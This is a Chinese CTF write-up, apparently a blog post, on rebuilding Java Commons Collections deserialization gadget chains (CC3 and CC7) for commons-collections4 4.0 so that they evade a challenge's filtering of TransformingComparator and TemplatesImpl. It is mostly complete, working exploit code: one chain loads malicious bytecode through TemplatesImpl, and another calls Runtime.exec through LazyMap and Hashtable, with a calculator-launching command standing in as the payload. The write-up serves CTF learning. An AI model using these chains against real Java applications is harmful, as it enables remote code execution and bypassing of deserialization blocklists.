








# 探寻新CC利用链之旅(上)

## 前言

最近 ctfshow 群主上新了几道 cc 链题，打到后面的时候开始过滤一些类，如下图所示：


使用到的依赖版本是`commons-collection 4.0`版本，经过简单的 fuzz，确定题目过滤了`TransformingComparator`类。根据网上的公开链，无论是前面学习的`CommonsCollections2`和`CommonsCollections4`，还是`@navalorenzo`发布的`CommonsCollections8`等适用于`commons-collection 4.0`版本的链子都用到了该类。

既然现成链子不行，那么就动手组合出新的链子吧。最简单的做法就是根据现有的链子尝试进行修改，这里挑了两个没有用到`TransformingComparator`类的`CommonsCollections3`和`CommonsCollections7`作为例子。

## 修改CommonsCollections3

`CommonsCollections3`链适用于`commons-collections:3.1`版本，那么我们先把之前编写的`CommonsCollections3`链所有依赖都改成`commons-collection 4.0`版本的，如下所示：

```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/12/8 17:59
 */
public class CommonsCollections4New1 {
    public static void main(String[] args) throws Exception{
        CommonsCollections4New1 commonsCollections4New1 = new CommonsCollections4New1();
        commonsCollections4New1.serialize();
        commonsCollections4New1.unserialize();
    }

    public void serialize() throws Exception {
        byte[] classBytes = getBytes();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);
        // 利用链
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] { Templates.class },
                        new Object[] { templates } )
        };
        // 创建虚假的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        InvocationHandler mapHandler = (InvocationHandler) constructor.newInstance(Override.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, mapHandler);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Override.class, proxyMap);
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);

        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(handler);

    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
    public static byte[] getBytes() throws Exception{
        InputStream inputStream = new FileInputStream(new File("./target/classes/com/test/tool/ExecEvilClass.class"));
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        int a = -1;
        while((a = inputStream.read())!=-1){
            bao.write(a);
        }
        byte[] bytes = bao.toByteArray();
        return bytes;

    }
}
```



Idea 提示` LazyMap.decorate()`方法错误，我们跟进`org.apache.commons.collections4.map.LazyMap`类看看


发现`collections4`版本`LazyMap`类已经不存在该方法，取而代之的则是静态`lazymap()`方法


那我们把`LazyMap.decorate()`方法改成`LazyMap.lazyMap()`方法即可
```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/12/8 17:59
 */
public class CommonsCollections4New1 {
    public static void main(String[] args) throws Exception{
        CommonsCollections4New1 commonsCollections4New1 = new CommonsCollections4New1();
        commonsCollections4New1.serialize();
        commonsCollections4New1.unserialize();
    }

    public void serialize() throws Exception {
        byte[] classBytes = getBytes();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);
        // 利用链
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] { Templates.class },
                        new Object[] { templates } )
        };
        // 创建虚假的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.lazyMap(innerMap, chainedTransformer);
        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        InvocationHandler mapHandler = (InvocationHandler) constructor.newInstance(Override.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, mapHandler);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Override.class, proxyMap);
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);

        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(handler);

    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
    public static byte[] getBytes() throws Exception{
        InputStream inputStream = new FileInputStream(new File("./target/classes/com/test/tool/ExecEvilClass.class"));
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        int a = -1;
        while((a = inputStream.read())!=-1){
            bao.write(a);
        }
        byte[] bytes = bao.toByteArray();
        return bytes;

    }
}
```

加载恶意类



当打过去的时候还是显示有类被过滤了


再经过 fuzz 测试，发现是`TemplatesImpl`类被过滤了，既然不能加载字节码，那么我们换条链子再继续改一下。
## 修改CommonsCollections7

`CommonsCollections7`链也没有用到`TemplatesImpl`类加载字节码，我们就基于这条链改一下，还是和上面一样，因为`CommonsCollections7`链适用于`commons-collection 4.0`版本，因此我们修改相关类之后，再把 LazyMap 类的实例化方法进行修改，如下所示

```java
package com.serialize;

import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.map.LazyMap;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

/**
 * Created by dotast on 2022/12/8 17:59
 */
public class CommonsCollections4New2 {
    public static void main(String[] args) throws Exception{
        CommonsCollections4New2 commonsCollections4New2 = new CommonsCollections4New2();
        commonsCollections4New2.serialize();
        commonsCollections4New2.unserialize();
    }

    public void serialize() throws Exception {
        String cmd = "open -a Calculator.app";
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };

        // 创建虚假的调用链
        Transformer[] fakeTransformers = new Transformer[]{};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap1 = new HashMap<>();
        Map innerMap2 = new HashMap<>();
        Map lazyMap1 = LazyMap.lazyMap(innerMap1,chainedTransformer);
        lazyMap1.put("yy",1);
        Map lazyMap2 = LazyMap.lazyMap(innerMap2,chainedTransformer);
        lazyMap2.put("zZ",1);

        Hashtable hashtable = new Hashtable<>();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);

        lazyMap2.remove("yy");
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(hashtable);
    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```



成功打通


## 未完待续

在这之后，群主又上新了题目


打开环境看了一下


这次直接给出了过滤的类，基本都是网上已经公开的所有 CC 链需要用到的，那接下来就是需要动手挖一条新的链子了。

本文从严格意义上来说，并不能说是探寻了新的 CC 利用链，因此写为上篇作为下文引子。